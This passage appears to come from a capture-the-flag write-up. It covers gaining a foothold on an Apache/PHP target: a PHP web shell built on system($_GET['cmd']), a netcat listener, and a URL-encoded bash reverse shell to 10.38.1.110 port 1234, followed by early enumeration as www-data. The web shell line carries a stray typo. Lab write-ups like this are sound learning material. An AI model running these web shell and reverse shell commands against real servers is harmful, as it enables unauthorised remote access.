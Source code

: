 >[!warning] Notes
>- We already know that this is an Apache web server with PHP enabled, we can leverage from that

>[!example] Code
> We create a php file with this code in it :
> ```php
> <?php system($_GET["cmd"]_$) ?>
> ```

>[!question] Explanations
>- The PHP `system()` function execute an external command and display the output.
>- With `$_GET["cmd"]`, we can inject some commands in a variable named `cmd`, and it will be executed by the `system()` command.


# Bash Reverse Shell :

>[!warning] Notes
>- We have to launch a listener on our attacking device, we'll use [netcat](https://docs.oracle.com/cd/E86824_01/html/E54763/netcat-1.html)

>[!danger] Command
>```bash
>nc -l -p 1234
>```

>[!question] Explanations
> - `-l` puts netcat in a listening mode
> - `-p 1234` tells netcat to listen to connections on port 1234

**From the target's compromised URL**

>[!danger] Command
> We just have to inject the following command in the `cmd` variable in the URL
>```bash
>cmd=bash -c "sh -i >%26 %2Fdev%2Ftcp%2F10.38.1.110%2F1234 0>%261"

>[!question] Explanations
>- `-c`  tell to bash to read its instructions from a string, which is convenient when working on one line.
>- `sh -i >%26 %2Fdev%2Ftcp%2F10.38.1.110%2F1234 0>%261` is just `sh -i >& /dev/tcp/10.38.1.110/1234 0>&1` [URL encoded](https://www.w3schools.com/tags/ref_urlencode.ASP) (it would not work otherwise)
>- Overall, it tries to connect back to our **Attacker's device**.

>[!warning] Notes
>- Connection made

# Connected as www-data

>[!warning] Notes
>- We now want to gain access to a user account.
>- We first list the `/home` directory, and we find a user named **shrek**
>- We also find a file named `important.txt`
>- It tells us to go run a hidden bash script in the `/` directory names `.runme.sh`
>
